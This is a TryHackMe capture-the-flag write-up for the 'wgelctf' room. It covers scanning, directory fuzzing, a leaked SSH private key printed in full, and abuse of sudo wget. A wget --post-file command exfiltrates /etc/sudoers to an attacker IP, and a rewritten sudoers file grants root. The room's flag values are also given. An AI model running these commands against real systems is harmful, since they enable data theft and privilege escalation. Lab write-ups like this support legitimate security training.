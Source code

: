 ###### Can you exfiltrate the root flag?
Room: https://tryhackme.com/room/wgelctf
##

**sudo** nmap -sS -sV xx.xx.xxx.xx
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The webpage's source code gives us a potentially username for the SSH service.
```
 <!-- Jessie don't forget to udate the webiste -->
```

**gobuster** dir -u http://xx.xx.xxx.xx -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```
/sitemap              (Status: 301) [Size: 314] [--> http://xx.xx.xxx.xx/sitemap/]
```

On the other hand, the sitemap directory wasn't very helpful. However, I decided to fuzz the directory more.  

**ffuf** -u http://xx.xx.xxx.xx/FUZZ -w /usr/share/wordlists/dirb/common.txt --recursion   

There is a hidden **.ssh** directory that contains a **rsa** private key.
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```


By saving this to our machine, see that we can authenticate to the SSH service under the jessie user.   

**ssh** -i privatekey jessie@xx.xx.xxx.xx  

We do have acces to the wget command as sudo.  
This means we can use the command to send or get files from another servers.

We can send the content of the **/etc/sudoers** file to our attacking machine, edit the file and get the modified file on the target system.  
For this, we need to set up a netcat listener on our attacking machine.

**sudo wget** --post-file=/etc/sudoers attackerMachineIP:1234 http://attackerMachineIP:1234/  

On the netcat listener, we get the content of the file.  

```
listening on [any] 1234 ...
connect to [10.9.0.11] from (UNKNOWN) [10.10.51.225] 58384
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.0.11:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 797

#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
jessie	ALL=(root) NOPASSWD: /usr/bin/wget
```

What we need now is to save the content under the name **sudoers** and change the line 
```
jessie	ALL=(root) NOPASSWD: /usr/bin/wget
```

TO

```
jessie  ALL=(root) NOPASSWD: ALL
```

We also need to remove this part.  
```
listening on [any] 1234 ...
connect to [10.9.0.11] from (UNKNOWN) [10.10.51.225] 58384
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.0.11:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 797
```


After the file is edited, we can use **wget** on the target machine to retrieve it from our attacking machine.  

[Attacker Machine]  
**python3** -m http.server

[Target Machine]  
**cd** /etc/
**sudo wget** attackerMachineIP:8000/sudoers --output-document=sudoers

**sudo -l**
```
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: ALL
```

The **sudo su** command gives us root access. 

The **user** flag is at /home/jessie/Documents/user_flag.txt and is **057c67131c3d5e42dd5cd3075b198ff6**.  
The **root** flag is at /root/root_flag.txt and is **b1b968b37519ad1daa6408188649263d**.  
